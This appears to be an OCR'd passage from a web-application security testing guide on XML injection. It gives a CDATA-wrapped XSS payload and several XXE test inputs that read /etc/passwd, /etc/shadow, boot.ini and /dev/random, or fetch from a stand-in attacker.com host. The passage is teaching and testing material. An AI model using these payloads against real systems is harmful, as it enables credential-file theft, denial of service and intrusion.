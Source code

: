 Let's consider a concrete example. Suppose we have a node containing
some text that will be displayed back to the user.

**`<html>` `$HTMLCode` `</html>`**

Then, an attacker can provide the following input:

**`$HTMLCode``   ``=``
 ``<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>`**

and obtain the following node:

**`<html>`
`<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>`
`</html>`**

During the processing, the CDATA section delimiters are eliminated,
generating the following HTML code:

`'''`

<script>

alert('XSS')

</script>

'''

The result is that the application is vulnerable to XSS.

**External Entity:** The set of valid entities can be extended by
defining new entities. If the definition of an entity is a URI, the
entity is called an external entity. Unless configured to do otherwise,
external entities force the XML parser to access the resource specified
by the URI, e.g., a file on the local machine or on a remote systems.
This behavior exposes the application to XML eXternal Entity (XXE)
attacks, which can be used to perform denial of service of the local
system, gain unauthorized access to files on the local machine, scan
remote machines, and perform denial of service of remote systems.

To test for XXE vulnerabilities, one can use the following input:

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///dev/random"``
 ``>]><foo>&xxe;</foo>`**

This test could crash the web server (on a UNIX system), if the XML
parser attempts to substitute the entity with the contents of the
/dev/random file.

Other useful tests are the following:

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///etc/passwd"``
 ``>]><foo>&xxe;</foo>` `<?xml``   ``version="1.0"``
 ``encoding="ISO-8859-1"?>` `<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``
 ``foo``   ``ANY``   ``>` `<!ENTITY``   ``xxe``   ``SYSTEM``
 ``"file:///etc/shadow"``   ``>]><foo>&xxe;</foo>` `<?xml``
 ``version="1.0"``   ``encoding="ISO-8859-1"?>` `<!DOCTYPE``   ``foo``
 ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>` `<!ENTITY``   ``xxe``
 ``SYSTEM``   ``"file:///c:/boot.ini"``   ``>]><foo>&xxe;</foo>`
`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>` `<!DOCTYPE``
 ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>` `<!ENTITY``
 ``xxe``   ``SYSTEM``   ``"http://www.attacker.com/text.txt"``
 ``>]><foo>&xxe;</foo>`**
